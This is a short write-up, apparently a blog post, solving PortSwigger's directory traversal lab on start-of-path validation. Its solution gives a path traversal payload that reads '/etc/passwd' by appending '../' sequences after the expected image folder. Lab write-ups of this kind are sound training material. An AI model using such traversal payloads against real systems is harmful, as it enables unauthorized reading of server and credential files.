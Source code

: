 ```yaml
---
layout: post
title:  "PortSwigger - Directory Traversal - Lab 5"
date:   2024-06-10 00:00
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [directory-traversal,bscp]
categories: [PortSwigger]
---
```


# Lab 5 - Directory Traversal - File path traversal, validation of start of path
><b>Lab Objective:</b>
<br/><br/>
This lab contains a path traversal vulnerability in the display of product images.
The application transmits the full file path via a request parameter, and validates that the supplied path starts with the expected folder.<br/><br/>
To solve the lab, retrieve the contents of the `/etc/passwd` file.
<br/>
<br/>
<b>Reference:</b>
<br/>
<a href="https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path">Port Swigger - Lab 5</a>
<br/>
<a href="https://academy.ranakhalil.com/courses/1491236/lectures/44691844">Rana Khalil - Lab 5</a>
<br/>

### Solution
<hr/>

#### 1. Investigate client default request and notice `/var/www/images` is appended to each image request.

#### 2. Append our payload after `/var/www/images`

```
../../../../etc/passwd
/var/www/images/../../../../etc/passwd
```

![Directory Traversal - Lab 5 - Start of path](/images/portswigger/DirectoryTraversal/lab5/directory-traversal-lab5.png)

<hr/>